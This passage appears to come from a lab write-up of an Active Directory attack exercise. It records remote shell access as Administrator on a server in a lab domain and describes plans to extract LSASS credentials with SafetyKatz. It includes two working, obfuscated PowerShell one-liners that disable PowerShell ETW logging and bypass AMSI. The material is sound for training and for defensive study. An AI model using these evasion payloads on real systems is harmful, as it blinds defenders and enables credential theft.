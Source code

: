 - **Leverage the Obtained Ticket to Gain Administrator Access and Remote Control on the Delegatee Server**

`winrs -r:mgmtsrv.tech.finance.corp cmd`:
```
Microsoft Windows [Version 10.0.17763.2452]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Administrator.TECH>
```
🚀

![mgmtsrv | administrator #>](https://custom-icon-badges.demolab.com/badge/mgmtsrv-administrator%20[%23>]-64b5f6?logo=windows11&logoColor=white)

`set username`:
```
USERNAME=Administrator👤
```

`set computername`:
```
COMPUTERNAME=MGMTSRV🖥️
```
🚩

---

### Domain Lateral Movement | Credential Extraction (with SafetyKatz)

5) **Credential Extraction for Domain Lateral Movement** (successful ✅)

Description: Executed **PowerShell logging and AMSI bypass techniques** to evade detection while performing credential extraction. Extracted **cleartext credentials** and **Kerberos keys** of `techservice` and `MGMTSRV$` from **LSASS memory** on `mgmtsrv.tech.finance.corp`. These credentials will be leveraged for **lateral movement** and further privilege escalation within the domain.

![mgmtsrv | administrator #>](https://custom-icon-badges.demolab.com/badge/mgmtsrv-administrator%20[%23>]-64b5f6?logo=windows11&logoColor=white)

- **Bypassing PowerShell Logging and AMSI for Evasion**

`powershell`

`$ExecutionContext.SessionState.LanguageMode`:
```
FullLanguage
```

```powershell
[Reflection.Assembly]::"l`o`AdwIThPa`Rti`AlnamE"(('S'+'ystem'+'.C'+'ore'))."g`E`TTYPE"(('Sys'+'tem.Di'+'agno'+'stics.Event'+'i'+'ng.EventProv'+'i'+'der'))."gET`FI`eLd"(('m'+'_'+'enabled'),('NonP'+'ubl'+'ic'+',Instance'))."seTVa`l`Ue"([Ref]."a`sSem`BlY"."gE`T`TyPE"(('Sys'+'tem'+'.Mana'+'ge'+'ment.Aut'+'o'+'mation.Tracing.'+'PSEtwLo'+'g'+'Pro'+'vi'+'der'))."gEtFIe`Ld"(('e'+'tw'+'Provid'+'er'),('N'+'o'+'nPu'+'b'+'lic,Static'))."gE`Tva`lUe"($null),0)
```

```powershell
S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```
